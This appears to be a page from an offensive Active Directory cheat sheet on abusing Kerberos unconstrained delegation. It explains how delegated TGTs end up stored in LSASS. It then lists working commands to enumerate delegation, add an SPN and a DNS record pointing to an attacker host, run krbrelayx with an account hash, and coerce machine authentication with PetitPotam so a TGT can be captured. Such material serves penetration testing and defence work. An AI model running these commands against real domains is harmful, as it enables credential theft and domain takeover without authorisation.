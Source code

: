 ## **Kerberos Delegations**

Kerberos delegations can be used for local privesc, lateral movement or domain privesc. The main purpose of Kerberos delegations is to permit a principal to access a service on behalf of another principal.

There are two main types of delegation:

* **Unconstrained Delegation**: the first hop server can request access to any service on any computer
* **Constrained Delegation**: the first hop server has a list of service it can request

### Unconstrained delegation

* A user request a TGT to the DC
* The user requests a TGS for a service on a computer which is in Unconstrained Delegation
* The DC places user's TGT inside TGS. When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in **LSASS**. This way the server can reuse the user's TGT to access any other resource as the user
* This behavior can be abused by extracting the TGT from the previous users stored in LSASS



#### Enumerate principals with Unconstrained Delegation

Works for computers and users

```bash
findDelegation.py -dc-ip <DC_IP> domain.local/user1:password

#For another domain across trust
findDelegation.py -target-domain <target_domain> domain.local/user1:password
```

#### Unconstrained Delegation attack

If we have enough rights against a principal (computer or user) in UD to add a **SPN** on it and **know its password**, we can try to use it to retrieve a machine account password from an authentication coercion.

* Add a new DNS record on the domain that point to our IP
* Add a SPN on the principal that point to the DNS record and change its password (will be usefull for the tool `krbrelayx.py` to extract the TGT from the ST)
* Trigger the authentication and grab the ST (and TGT in it) on **krbrelayx** that is listenning for it

Since the user is in **Unconstrained Delegation**, when the machine account will send the **ST** to the SPN it will automatically add a **TGT** in it, and because the SPN is pointing to us with the DNS record, we can retrieve the TGS, decipher the ciphered part with the user password (the SPN is setup on the user, so the TGS is ciphered with his password), and retrieve the TGT.

```bash
#Add the SPN
python3 addspn.py -u 'domain.local\user1' -p 'password' -s 'HOST/attacker.domain.local' -t 'target.domain.local' --additional <DC_IP>

#Create the DNS record
python3 dnstool.py -u 'domain.local\user1' -p 'password' -r 'attacker.domain.local' -d '<attacker_IP>' --action add <DC_IP>

#Run krbrelayx with the hash of the password of the principal
python3 krbrelayx.py -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE -dc-ip dc.domain.local

#Trigger the coercion
./petitpotam.py -u user1 -p password -d domain.local -pipe all "attacker.domain.local" <target_IP>
```
